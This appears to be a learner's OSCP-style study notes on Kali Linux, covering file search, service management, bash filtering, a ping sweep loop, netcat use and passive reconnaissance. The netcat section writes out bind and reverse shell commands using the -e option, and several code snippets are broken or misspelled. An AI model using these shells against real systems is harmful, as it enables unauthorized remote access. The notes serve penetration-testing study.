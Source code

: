 <p align="center;style="font-size:50px;color:red">

  SCP<br>

 <img src="oscp1.png">
</p>
<font>
  size="40"
  color="red"
</font>
<p><b> Getting Comfortable With Kali Linux</b><br></p>


# Find File:

**locate**
```
updatedb
```
to update the file index database

```
locate [filename]
```
**which**

find the file which has current execution environment

```
which [part of file name]
```

**find**

powerfull search tool with many arguments

```
find [search location]  -name [filename] -exec file "{}"\;
```

# Service managent:

```
service [service name] [option]

```
option could be : start, stop, or restart

alternatevly you can use:

```
/etc/init.d/[service name] [option]
```

or:

```
update-rc.d [service name] [options]

```

options here are: defaults, remove, start , or stop



**GUI service management:**

rcconf

![Alt text](rcconf.png)


sysv--rc-conf

![Alt text](sysv-rc-conf.png)


# Bash Shell

to automate actions you need to write some shell scripts for example filtring domain names from a html page:

``` 
wget cisco.com 
cat index.html | grep "a href=" | cut -d "/" -f3
```

if you get error *ERROR: The certificate of ‘www.cisco.com’ is not trusted.* just use *wget --no-check-certificate cisco.com*

other method:

``
cat index.html |grep 'http://[^"]*' | cut -d "/" -f 3 |sort -u
```

# direct error to null screen (do not show errors)

```
command 2>/dev/null

```
where:

stdin – 0 – Standard Input (usually keyboard or file)

stdout – 1 – Standard Output (usually screen)

stderr – 2 – Standard Error (usually screen)


# Reverse Hex Dump:

```
xxd -r file > output
```
# login with ssh-private key

```
ssh -i [key file path] user@host

```

# ping sweeper:

```
#! /bin/bash
```
for ip in $(1 255) do
ping 192.168.1.$ip | grep "bytes from" | cut -d " " -f4 | cut -d ":" -f1 &
```

the & is to send each command to background and run the next on in the loop

# Rdisktop

```
rdisktop -u *username* -p *password* *hostname/ip*
```

# NetCat

on server side:

```
nc -nlp *port*
```
n stands for numerical host ( no DNS)
l stands for listen
p stands for port

on clinet side:

```
nc -n *netcat Server machine IP address* *port*
```

the port is the server spacified port number 


NetCat file transfare:

```
server side:
nc -npl *port* > *name for the recived file*

client side:
nc -n *serverIP* *serverport* < *path of the file to be send*
```
NetCat Remote Execution:

```
**forword command execution(Bind Shell)**
server side:
nc -lp *port* -e *full path of command to be executed*
clinet side:
nc -n *serverIP* *serverport*
**revirce shell**
server side:
nc -lp *port*
clinet side:
nc -n *serverIP* *serverPort* -e *full path of command to be executed*
```
# Reconnaissance:

Pasive:

```
theHarvester -d *domainname* -b google

```
you can use any other search engen to search in

```
whois *domainname* OR *IP*
```


DNS Enumeration:

``` 
host *internet hostname*
```

that would resolve the hostname to an IP address

```
host -t *DNS recired type* *domain*

recored type such as: ns, mx, a, and aaaa
```

Note -A insted of -t gets all the recoreds ns, mx, a, and aaaa recoreds